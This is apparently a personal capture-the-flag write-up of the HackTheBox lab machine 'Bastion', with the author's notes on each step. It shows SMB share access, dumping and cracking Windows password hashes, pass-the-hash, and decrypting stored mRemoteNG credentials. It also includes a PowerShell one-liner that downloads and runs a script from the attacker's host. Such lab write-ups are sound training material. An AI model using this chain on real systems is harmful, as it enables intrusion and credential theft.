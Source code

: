 ```yaml
---
title : "2020-02-HTB-Bastion"
author: Jesse Moore
date: 2020-02-07 09:26:00 +0800
categories: [HackTheBox]
tags: [hacking, Windows, HTB]
---
```

![Screenshot 2022-05-18 202633](https://user-images.githubusercontent.com/6413570/169198097-7183d13b-8e54-4aa9-adb7-84f9131e7638.jpg)

10.10.10.134

ippsec.rocks/?#locat

https://www.hackthebox.eu/home/machines/profile/186
https://overflow.uaacyber.dev/2019/09/bastion.html
https://0xrick.github.io/hack-the-box/bastion/
https://github.com/kmahyyg/mremoteng-decrypt
https://www.elasticice.net/?p=255


![image](https://user-images.githubusercontent.com/6413570/169198090-dbe50757-25a2-4566-9967-56b7c8ef46b1.png)

nmap -sV -sC -oA nmap/Bastion 10.10.10.134

![image](https://user-images.githubusercontent.com/6413570/169198195-03df5cfb-eefc-49d6-8208-81a563e6eac8.png)

Scan the host as anonymous for open smb shares using SMBMap. 
Install SMBMap
![image](https://user-images.githubusercontent.com/6413570/169198253-6f4e02d1-320d-47e3-b3b0-7c01f7a904f3.png)

python3 -m pip install -r requirements.txt

List Shares that have no password:
smbclient --list //bastion.htb/ -U '
![image](https://user-images.githubusercontent.com/6413570/169198311-2555d8f0-69fa-4006-8a47-f6c6139e314d.png)


Looks like Backups is the only Comment that doesn't say we cant access

smbclient //10.10.10.134/Backups -U 

![image](https://user-images.githubusercontent.com/6413570/169198373-b6015259-46cb-4241-864b-64244065d0e9.png)

press l to list

![image](https://user-images.githubusercontent.com/6413570/169198429-82bf0367-631f-4726-b618-bc899f5df383.png)

![image](https://user-images.githubusercontent.com/6413570/169198460-b3df6a92-9861-429a-aa96-a5d9c00f6f25.png)

So we need to mount the VHD in the other directory
![image](https://user-images.githubusercontent.com/6413570/169198507-6f0c298f-dcad-426b-82ba-78f0c680819b.png)

cd Backup
![image](https://user-images.githubusercontent.com/6413570/169198529-c862e7cc-7f36-4d5e-9646-fba621978462.png)

See the VHD

Mount Backups
mount -t cifs //10.10.10.134/Backups /mnt/smb
![image](https://user-images.githubusercontent.com/6413570/169198566-ca3de773-3d2f-4a31-88d0-110e4c3d0ce2.png)

cat note.txt
![image](https://user-images.githubusercontent.com/6413570/169198605-712b7487-793a-494f-838f-7e9ead661e87.png)

use &zip if you want to see files... however we will just mount the vhd using guestmount
7z l 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd

####################################
mkdir /mnt/vhd2
guestmount --add 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro -v /mnt/vhd2

to mount a VHD you need this:
apt install libguestfs-tools

Create a mount directory to use for the mount
mkdir /mnt/vhd2

Use guestmount to mount the VHD
guestmount --add 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro -v /mnt/vhd2
![image](https://user-images.githubusercontent.com/6413570/169198657-2ec6290a-68be-4831-aa27-70acd39f3c78.png)

Find files in these directories
find Desktop Documents/ Downloads/ -ls
![image](https://user-images.githubusercontent.com/6413570/169198699-5d565314-ee5e-49df-b337-8b9110697e44.png)

Go into vhd2 and navigate to config in Windows to obtain SAM and SYSTEM files
![image](https://user-images.githubusercontent.com/6413570/169198737-a18b9713-591a-4a7e-bcb8-5808ab1db5ee.png)

cp SAM SYSTEM /root/htb/bastion
cd /root/htb/bastion
mkdir backup-dump
mv SAM SYSTEM backup-dump/
cd backup-dump/
![image](https://user-images.githubusercontent.com/6413570/169198770-6957f2c0-90bd-4dd7-ae54-0f676ed15f10.png)

root@kali:~/htb/bastion/backup-dump# impacket-secretsdump -sam SAM -system SYSTEM local

![image](https://user-images.githubusercontent.com/6413570/169198813-2e9837fa-f727-4ce5-9ee5-b6286624260b.png)

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::


NOTICE the Administrator NT HASH is BLANK aka 31d6c and the LM hash of aad3, which means the Administrative account is disabled.

try to crack the L4mpje hash 26112010952d963c8dc4217daec986d9 

https://crackstation.net/
![image](https://user-images.githubusercontent.com/6413570/169198862-1bea1925-8c17-4920-9355-8133d76faf05.png)


bureaulampje

OR pass the hash
smbmap -u L4mpje -p ad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9 -H 10.10.10.134

ssh L4mpje@10.10.10.134
bureaulampje

![image](https://user-images.githubusercontent.com/6413570/169198890-39ffc99e-ddef-4213-9285-d815d93f33fa.png)

net localgroup administrators
net user l4mpje
net user administrator

now that you see administrator has logged in... time to Priv Esc

Grab from Kali
JAWS Enumeration powershell github

git clone https://github.com/411Hall/JAWS.git


On TARGET:
powershell
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.14:8000/jaws-enum.ps1')
![image](https://user-images.githubusercontent.com/6413570/169198945-4c0f91a7-f49a-4fe6-b665-e568c6048e83.png)


In ANOTHER Windows
root@kali:~/htb/bastion# echo l4mpje:bureaulampje > creds
root@kali:~/htb/bastion# ls
backup-dump creds JAWS mountstuf nmap smbmap
root@kali:~/htb/bastion# cat creds
l4mpje:bureaulampje
root@kali:~/htb/bastion# ssh l4mpje@10.10.10.134
![image](https://user-images.githubusercontent.com/6413570/169198982-396b2d03-a845-4870-b9d0-ae2f5e14b3cc.png)

type C:\Users\L4mpje\Desktop\user.txt 

PS C:\Users\L4mpje> type C:\Users\L4mpje\Desktop\user.txt 
9bfe57d5c3309db3a151772f9d86c6cd 

git clone https://github.com/411Hall/JAWS.git

![image](https://user-images.githubusercontent.com/6413570/169199638-6e3a68b8-493d-427c-88a3-c8dc4e79d2c5.png)

python -m SimpleHTTPServer


On the TARGET:
powershell
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.14:8000/jaws-enum.ps1')


Looking through the JAWS output we see a programx86 as mRemoteNG

![image](https://user-images.githubusercontent.com/6413570/169199027-94265486-0687-408d-aa88-507f0d5c1892.png)

After manually enumerating installed programs mRemoteNG stands out of interest. Tool is used to remotely access server resources and is suggested to store credentials in an insecure manner. Credentials for application noted as being stored in file confCons.xml. Copy of the confCons.xml file obtained from %USER%/AppData/Roaming/mremoteng/confCons.xmland reviewed. 

Two items of interest found from reviewing file are below. File appears to store RDP credentialsfor user Administrator and L4mpje.
![image](https://user-images.githubusercontent.com/6413570/169199067-dae94686-b0b0-42c2-9247-b4c3df41a0ba.png)

Download decrypt python tool
https://github.com/kmahyyg/mremoteng-decrypt

Download the mRemotNG confCons.xml from target
scp l4mpje@10.10.10.134:/Users/L4mpje/AppData/Roaming/mRemoteNG/confCons.xml .
![image](https://user-images.githubusercontent.com/6413570/169199111-b7d8cb29-b75e-4e5a-a50a-5a67b2eddd3e.png)


cat confCons.xml | grep Password
![image](https://user-images.githubusercontent.com/6413570/169199149-8e3e94ae-46ff-40bc-b38d-ea69e93d0c69.png)

Username=Administrator Domain= Password=aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw== Hostname=127.0.0.1 Protocol=RDP
![image](https://user-images.githubusercontent.com/6413570/169199194-431f5a5a-641c-4d05-9d82-ac4d704e2476.png)

root@kali:~/htb/bastion/mremoteng-decrypt# python mremoteng_decrypt.py -s aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==
Password: thXLHM96BeKL0ER2

Now SSH with that password as Administrator
ssh administrator@10.10.10.134


administrator@BASTION C:\Users\Administrator\Desktop>type root.txt 
958850b91811676ed6620a9c430e65c8
![image](https://user-images.githubusercontent.com/6413570/169199226-f131b09f-a0a0-4e49-9a17-cc31144146f8.png)
